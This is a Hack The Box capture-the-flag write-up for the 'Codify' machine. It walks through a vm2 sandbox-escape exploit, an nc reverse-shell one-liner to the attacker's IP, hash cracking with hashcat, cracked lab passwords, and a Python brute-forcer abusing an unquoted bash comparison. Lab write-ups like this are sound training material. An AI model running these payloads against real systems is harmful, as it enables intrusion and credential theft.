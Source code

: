 # [Codify](https://app.hackthebox.com/machines/Codify)

```bash
nmap -p-  --min-rate 10000 10.10.11.239 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,3000 10.10.11.239 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, we can see ip address that resolved into `codify.htb`, let's add this into `/etc/hosts` file for resolving purposes.


![alt text](img/image-2.png)


So I know that `vm2` library is used, let's search publicly known exploit for this.

I find [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).


I copy this script and replace `Command Injection` via `cat /etc/passwd` and paste into Editor.

![alt text](img/image-3.png)


Now, let's replace command via reverse shell payload.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.4 1337 >/tmp/f
```

![alt text](img/image-4.png)


Hola! I got reverse shell from port `1337`.

![alt text](img/image-5.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-6.png)


I find `tickets.db` file on `/var/www/contact`, let's get this file on our machine.

First, let's open http.server on target.
```bash
python3 -m http.server --bind 10.10.11.239 8080
```
![alt text](img/image-7.png)


Then download this file via `wget` command.

```bash
wget http://10.10.11.239:8080/tickets.db
```

![alt text](img/image-8.png)


Let's read this file's content via `sqlite3` command.

![alt text](img/image-9.png)


I can see `joshua` password hash here, let's crack this via `hashcat`.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![alt text](img/image-10.png)


joshua: spongebob1


Let's switch into `joshua` user via `su joshua` cmdlet.

user.txt

![alt text](img/image-11.png)


I just look at sudo permissions of this user via `sudo -l` command.

![alt text](img/image-12.png)


Let's read this script's content.

![alt text](img/image-13.png)


There's `BASH COMPARISON` vulnerability which is  the right side of == is not quoted, bash uses pattern matching instead of interpreting it as a string. If we give wildcard “*” it gives some weird output, it says Password confirmed, so we need to brute force the password.


Vulnerable Code in BASH:
```bash
if [[ $DB_PASS == $USER_PASS ]]; then   ##VULNERABLE COMPARISON
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

```

![alt text](img/image-14.png)


That's why we can brute-force correct password. For this, I code Python script.

```bash
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Let's run this and get password of `root` user.

![alt text](img/image-15.png)


root: kljh12k3jhaskjh12kjh3


root.txt

![alt text](img/image-16.png)

